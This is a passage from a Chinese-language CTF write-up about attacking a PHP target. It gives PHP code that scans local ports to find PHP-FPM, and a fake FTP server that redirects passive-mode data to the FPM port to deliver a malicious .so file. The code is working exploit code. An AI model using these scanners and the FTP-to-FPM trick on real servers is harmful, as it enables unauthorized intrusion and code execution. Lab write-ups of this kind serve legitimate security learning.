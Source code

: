 emmmmmmmmm 这个之后也需要绕过

用tcp://伪协议扫一下本机开放的端口

```php
for($i=0;$i<65535;$i++) {
  $t=stream_socket_server("tcp://0.0.0.0:".$i,$ee,$ee2);
  if($ee2 === "Address already in use") {
    var_dump($i);
  }
}
```

或者`file_get_contents`和`error_get_last`获取到请求中发出的错误进行循环判断也可以进行端口扫描

```php
for($i=0;$i<65535;$i++) {
  $t=file_get_contents('http://127.0.0.1:'.$i);
  if(!strpos(error_get_last()['message'], "Connection refused")) {
    var_dump($i);
  }
}
```

```
int(11451) int(37114) int(48748)
```

找到了fpm端口11451

之后就续上了我们前面的思路，先在本地（也就是靶机的本地）起一个恶意的ftp_server服务用来转发FTP-DATA（即.so文件）至fpm端口（11451）；这里的exp是php版的，原理跟上面的py版是一样的

```php
$socket = stream_socket_server("tcp://0.0.0.0:46819", $errno, $errstr);
if (!$socket) {
  echo "$errstr ($errno)<br />\n";
} else {
  while ($conn = stream_socket_accept($socket)) {
    fwrite($conn, "210 Fake FTP\n");
    $line = fgets($conn);
    echo $line; // USER
    fwrite($conn, "230 Login successful\n");
    $line = fgets($conn);
    echo $line; // TYPE
    fwrite($conn, "200 xx\n");
    $line = fgets($conn);
    echo $line; // SIZE
    fwrite($conn, "550 xx\n");
    $line = fgets($conn);
    echo $line; // EPSV
    fwrite($conn, "500 wtf\n");
    $line = fgets($conn);
    echo $line; // PASV

    // $ip = '192.168.1.4';
    $ip = '127.0.0.1';
    $port = 11451;
    $porth = floor($port / 256);
    $portl = $port % 256;
    fwrite($conn, "227 Entering Passive Mode. ".str_replace('.',',',$ip).",$porth,$portl\n");
    $line = fgets($conn);
    echo $line; // STOR

    fwrite($conn, "125 GOGOGO!\n");
    sleep(1);
    fwrite($conn, "226 Thanks!\n");
    fclose($conn);
  }
```